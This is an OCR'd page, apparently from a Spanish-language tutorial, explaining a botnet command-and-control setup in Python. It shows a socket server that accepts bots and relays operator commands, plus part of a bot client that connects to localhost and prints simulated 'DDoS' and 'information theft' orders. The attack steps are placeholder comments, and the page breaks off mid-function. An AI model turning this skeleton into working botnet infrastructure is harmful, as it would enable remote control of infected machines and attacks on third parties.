 ```Python
# Configurar el servidor para aceptar conexiones
def servidor_CnC():
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.bind((HOST, PORT))
    server.listen(5)
    print(f"Escuchando en {HOST}:{PORT}...")

    while True:
        # Aceptar conexiones entrantes (bots)
        conn, addr = server.accept()
        bots.append(conn)
        # Crear un hilo para manejar cada bot conectado
        threading.Thread(target=manejar_bot, args=(conn, addr)).start()

if __name__ == "__main__":
    servidor_CnC()
```

**Paso a paso**

- Configuración del servidor: Se configura para que le servidor escuche en todas las interfaces y en el puerto 9999.
- Configuracion de la lista de bots: Se mantiene una lsita de todas las conexiones activas
- Funcion para manejar los bots: La funcion maneja cada bot conectado. Recibe y muestra cualqueir mensaje enviado por el bot, pide al operador del servidor ingresar un comando y despues envía el comando y espera a que se ejecute.
- Bucle principal: En la última funcion se crea un socket para escuchar conexiones en el puerto 9999 y, cada vez que un bot se conecta, se acepta la conexion y se maneja en un hilo independiente.

2. Ejemplo del código del bot (equipo infectado)
```Python
import socket
import time

# Dirección y puerto del servidor C&C (debe coincidir con el servidor)
HOST = "127.0.0.1"  # IP del servidor C&C (usando localhost para prueba)
PORT = 9999  # Puerto que escucha el servidor C&C

# Función para conectar el bot al servidor C&C
def conectar_a_CnC():
    bot = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    bot.connect((HOST, PORT))
    print(f"Conectado al servidor C&C {HOST}:{PORT}")
    return bot

# Función para esperar órdenes del servidor C&C
def esperar_ordenes(bot):
    while True:
        # Recibir comandos del servidor C&C
        orden = bot.recv(1024).decode()
        if orden:
            print(f"Comando recibido: {orden}")
            # Simula la ejecución de un comando (puede ser un ataque, por ejemplo)
            if orden == "Ataque DDoS":
                print("Ejecutando ataque DDoS...")
                # Aquí iría el código del ataque DDoS
            elif orden == "Robo de Información":
                print("Recopilando información...")
                # Simula el robo de información (puedes agregar funcionalidades)
            else:
                print("Comando no reconocido.")

# Función principal que conecta el bot al servidor C&C y espera órdenes
def ejecutar_bot():
```